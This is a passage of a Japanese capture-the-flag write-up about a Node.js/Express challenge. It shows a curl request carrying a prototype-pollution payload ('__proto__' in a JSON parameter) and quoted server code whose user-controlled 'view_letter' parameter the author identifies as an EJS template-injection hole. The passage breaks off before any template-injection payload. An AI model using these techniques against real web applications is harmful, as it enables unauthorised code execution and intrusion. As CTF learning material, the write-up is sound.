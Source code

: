 `fastfood` を JSON として解釈した上で `food` というプロパティが存在しないか確認し、さらに `Object.assign({}, in_food)` に通してこのオブジェクトの `food` というプロパティにアクセスしています。prototype pollution でしょう。

```
$ curl -X POST -g -b 'connect.sid=s%3AdkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3.jhR1fQpcYUKzWOv0UETajIYP2TCEowbbZBsXQ1Lxvow' 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge[]=d0wnth3r3&neworld=7777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&lord=a&rord=ricksundefined&worldname=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&component=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&weired=1e-3&st[]=1&st[]=3&ar[]=3&ar[]=7&fastfood={"__proto__":{"food":"Makloub"}}'
Wait Morty where's my thing?
```

### フラグの取得
```javascript
let letter_name = req.body.letter_name;
let letter = req.body.letter;
if (!Array.isArray(letter) && !Array.isArray(letter_name) && (typeof letter) !== "object" && (typeof letter_name) !== "object") {
  let letter_path = path.join(__dirname, "letters/", sess.id, path.basename(letter_name));
  if (!fs.existsSync(path.join(__dirname, "letters/", sess.id))) {
    fs.mkdirSync(path.join(__dirname, "letters/", sess.id));
  }
  fs.writeFileSync(letter_path, letter);
  if ("view_letter" in req.query) {
    let view_letter = req.query.view_letter;
      res.render(view_letter);
  }
  else {
    res.end("Wait Morty where's my thing?");
  }
}
else {
  res.end("Come on Morty it's a letter.");
}
```

ラストです。`letters/(セッション ID)/(path.basename(letter_name))` というファイルに `letter` を書き込んでいます。`view_letter` という GET パラメータが存在していれば `res.render(view_letter)` とそのパスをテンプレートとしてレンダリングしています。

`setup.js` の `app.set("view engine", "ejs");` からテンプレートエンジンには EJS が使われていることがわかっています。SSTI でしょう。

```
```